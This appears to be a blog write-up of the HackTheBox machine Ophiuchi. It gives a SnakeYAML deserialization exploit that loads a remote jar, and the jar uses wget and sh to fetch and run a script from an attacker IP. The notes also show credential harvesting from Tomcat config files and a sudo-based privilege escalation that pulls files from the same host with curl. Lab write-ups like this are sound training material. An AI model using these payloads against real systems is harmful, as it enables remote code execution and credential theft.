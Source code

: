 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/3jXJwYvHzxk/0.jpg
layout: post
media_subpath: /assets/posts/2021-07-03-snakeyaml-go-webassembly-ophiuchi-hackthebox
tags:
- go
- hackthebox
- linux
- sudo
- webassembly
- yaml
title: SnakeYAML, Go & WebAssembly - Ophiuchi @ HackTheBox
---
```


We are going to solve Ophiuchi a 30-point machine on HackTheBox that involves a YAML parser vulnerability and a custom program we can execute with sudo, which loads a web assembly file and executes a shell script without using the absolute path.

{% youtube 3jXJwYvHzxk %}

## Notes

**SnakeYAML Parser vulnerability**

- https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858
- https://github.com/artsploit/yaml-payload

Change payload to:

```
Runtime.getRuntime().exec("wget 10.10.14.97/x -O /tmp/x");
Runtime.getRuntime().exec("/bin/sh /tmp/x");
```

Compile:

```
javac yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf payload.jar -C yaml-payload/src/ .
```

Send Exploit:

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.97/payload.jar"]
  ]]
]
```

**Get Admin Password**

```
grep -ir "password" .
/tomcat/conf/tomcat-users.xml:<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

WebAssembly "main.c":

```
int info() {
    return 1;
}
```

Compile with emscripten:

```
sudo docker run --rm -v $(pwd):/src -u $(id -u):$(id -g) emscripten/emsdk emcc --no-entry main.c -s WASM=1 -o main.html -s "EXPORTED_FUNCTIONS=['_info']";
```

Transfer & Execute:

```
cd /tmp
curl 10.10.14.97/main.wasm > main.wasm
curl 10.10.14.97/x > deploy.sh
chmod +x deploy.sh
sudo /usr/bin/go run /opt/wasm-functions/index.go
```